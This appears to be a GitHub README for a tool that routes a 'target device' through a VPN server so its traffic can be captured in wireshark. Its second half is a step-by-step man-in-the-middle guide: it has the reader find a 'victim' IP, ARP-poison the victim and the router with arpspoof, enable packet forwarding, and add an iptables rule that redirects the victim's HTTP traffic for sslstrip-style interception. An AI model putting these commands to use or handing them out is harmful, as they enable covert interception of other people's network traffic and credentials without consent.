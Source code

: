 # Install

Make sure you have docker and wireshark installed.

#### Windows:
Install Linux or get a Mac and continue.

#### Ubuntu:
```
apt-get install docker wireshark
```

#### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

#### Windows
Install Linux or get a Mac and continue.

#### Linux
From: https://github.com/moxie0/sslstrip

Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

#### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html

Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```
